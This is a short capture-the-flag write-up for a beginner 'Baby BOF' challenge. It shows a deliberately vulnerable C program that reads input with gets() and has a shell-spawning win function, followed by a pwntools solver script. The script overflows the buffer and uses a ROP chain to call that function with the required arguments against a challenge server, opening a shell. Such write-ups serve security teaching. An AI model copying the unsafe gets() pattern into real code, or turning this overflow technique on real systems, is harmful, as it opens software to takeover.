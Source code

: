 ## Baby BOF
![challenge](../images/args.png)

### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stdin, NULL, _IONBF, 0);
}
int win(int a, int b){
    if (a == 0xdeadbeef && b == 0xcafebabe){
        system("/bin/sh");
    } else {
        puts("You are in but keep trying");
    }
}
int main(){
    setup();
    char buf[50];
    printf("double room for ?:");
    gets(buf);
    return 0;
}
```
### Overview
This challenge is a bit similar to the Baby_BOF but here we have arguments to pass.
In order to do that we can use ```ROP``` from pwntools library, that makes our lives more better.

### Solver
```py
from pwn import * 

elf = context.binary = ELF('main')
con = remote('20.216.40.184',10003)

offset = b'A' * 72

rop = ROP(elf)
rop.win(0xdeadbeef,0xcafebabe)

log.info(rop.dump())
payload = offset + rop.chain() 

con.send(payload)
con.interactive()
con.close()
```
